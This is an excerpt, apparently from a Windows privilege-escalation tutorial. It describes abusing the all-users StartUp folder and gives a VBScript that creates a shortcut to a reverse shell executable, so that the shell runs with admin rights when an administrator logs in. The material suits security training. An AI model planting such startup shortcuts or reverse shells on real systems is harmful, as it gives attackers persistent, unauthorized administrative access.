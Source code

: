 Each user can define apps that start when they log in, by placing shortcuts to them in a specific directory.

Windows also has a startup directory for apps that should start for all users:

```
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
```


If we can create files in this directory, we can use our reverse shell executable and escalate privileges when an admin logs in.


Note that shortcut files (.lnk) must be used. 
The following VBScript can be used
to create a shortcut file:

```
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start
Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\reverse.exe"
oLink.Save
```

